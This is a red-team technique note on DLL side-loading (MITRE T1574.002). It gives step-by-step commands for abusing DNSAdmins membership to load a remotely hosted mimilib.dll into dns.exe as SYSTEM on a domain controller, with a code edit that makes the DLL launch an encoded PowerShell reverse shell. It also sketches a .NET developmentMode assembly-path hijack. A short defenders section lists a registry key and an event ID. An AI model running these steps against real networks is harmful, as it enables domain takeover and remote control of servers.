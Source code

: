 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Hijack Execution Flow: DLL Side-Loading 

# T1574.002 - Hijack Execution Flow: DLL Side-Loading
### Attacks
* DNSAdmins DLL (PowerView, RSAT DNS, Mimikatz)
	* Overview
		* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM)
		* In case the DC also serves as DNS, this will provide us escalation to DA
		* Need privileges to restart the DNS service
			* By default, members of the DNSAdmins group do not have this privilege, though if the group is populated, an organization has probably given them this privilege
	* Process
		1. Enumerate the members of the DNSAdmins group
			* PowerView
		  
					Get-NetGroupMember -GroupName "DNSAdmins"
			* ActiveDirectory Module

					Get-ADGroupMember -Identity DNSAdmins
		1. Once we know the members of the DNSAdmins group, we need to compromise a member.
		1. From the privileges of DNSAdmins group member, configure DLL using dnscmd.exe (needs RSAT DNS)
			* `dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll`
		1. Using DNSServer module (needs RSAT DNS)
			* `$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All`
			* `$dnsettings.ServerLevelPluginDll = "\\172.16.50.100\dll\mimilib.dll"`
			* `Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose`
		1. Here, `mimilib.dll` is configured to be usable as a valid plugin
			* The default payload mimilib provides is a file called `kiwidns.log` that is stored in the system32 directory that logs any DNS queries received by the DNS server
				* Obviously you could edit this to do something more spectacular
				* Replace `#pragma warning(pop)` section in `kdns.c` with:

						#pragma warning (pop)
						 {
						  klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
						  fclose(kdns_logfile);
						  system(C:\\Windows\System32\\WindowsPowerShell\\v1.0\\powershell.exe -e ENCODED-REVERSE-SHELL-HERE);
						 }

			* **NOTE - AS LONG AS THIS REVERSE SHELL IS ALIVE, ALL DNS QUERIES WILL FAIL - SYNCHRONOUS EXECUTION**
		1. We then need to restart the sevice
			* `sc \\dcorp-dc stop dns`
			* `sc \\dcorp-dc start dns`
			* Notes
				* IF LOADING THE PLUGIN FAILS - THE DNS SERVICE WILL NOT START
				* MAKE SURE DLL IS FULLY SHARED AND READABLE BY EVERYONE
				* MAKE SURE YOU PROVIDE THE IP OF THE MACHINE HOSTING THE DLL - IF DNS SERVER FAILS TO RESOLVE HOSTNAME - PLUGIN WILL FAIL TO LOAD

#### Defenders

* Creates a registry key at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ServerLevelPluginDll` with value `\\172.16.50.100\dll\mimilib.dll`
* Can also keep an eye out for the Event #770
	* Notes that a plugin DLL has been loaded from a remote location
#### Tags:

<pre>#!Windows #!PowerShell #!AD #!DNS #!DNSAdmins #!Mimikatz #!PowerView #!C #!RSAT</pre>

## Global Assembly Cache Hijack Attack

### References

* BHops Article [https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/](https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/)

### Technique

Using the Global Assembly Cache attack, an attacker can override the lookup path for side loading a DLL on execution of the binary.

What we need:

1. Configuration file (Sample below) in the same directory as the .NET Binary we want to use (similar to the attack above)
1. Environmental Variable Set: devpath

Then we can execute the binary and have it load our DLL execution.

### Sample

Config:

```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <startup>
    <supportedRuntime version="v4.0" />
  </startup>
  <runtime>
    <developmentMode developerInstallation="true"/>
  </runtime>
</configuration>
```

